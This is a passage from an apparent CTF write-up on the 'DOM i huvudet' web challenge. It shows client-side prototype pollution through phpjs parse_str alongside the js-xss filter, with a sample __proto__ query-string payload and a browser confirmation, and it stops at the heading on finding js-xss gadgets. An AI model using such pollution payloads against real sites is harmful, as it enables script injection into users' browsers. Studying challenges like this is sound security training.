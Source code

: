# DOM i huvudet - (22 Solves)

DOM In The Head was labelled as an easy challenge in Cyber Fest CTF, yet it combined an interesting web attack vectors such as Prototype Pollution abusing vulnerable open-source javascript libraries. 

```html
...snip...
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.3/dist/css/bootstrap.min.css">
  <script src="https://raw.githack.com/hirak/phpjs/master/functions/strings/parse_str.js"></script>
  <script src="https://raw.githack.com/leizongmin/js-xss/master/dist/xss.js"></script>
...snip...
<script>
	function insertBefore(newNode, existingNode) {
		existingNode.parentNode.insertBefore(newNode, existingNode);
	};
	const queryString = window.location.search;
	const urlParams = new URLSearchParams(queryString);
	if (urlParams.has('name') && (urlParams.get('name') !== "")) {
		var arr = {};
		parse_str(location.search.slice(1), arr);
		document.getElementById("name").innerHTML = "input: "+filterXSS(arr["name"]);
	};
</script>
...snip...
```

From the given code we know that **js-xss** and **phpjs**  are being imported and used from the client-side. **parse_str** was being used to parse query strings from **location.search**. 

## Client-Side Prototype Pollution 

Because this was not the first time I am dealing with **phpjs** I immediatly knew that this was exploitable using prototype pollution, but you can read more about it [here](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/parse_str.md). 


To reach the part where we can trigger this, we need to add a dummy name as parameter, below is a sample payload

```
http://domihuvudet-1.ctfx.hackaplaneten.se:8001/?__proto__[test]=test&name=1
```

This can be also confirmed using our browser's dev tools

```
>> x = {}
Object {  }

>> x.test
"test"
```
## Locating Gadgets in js-xss
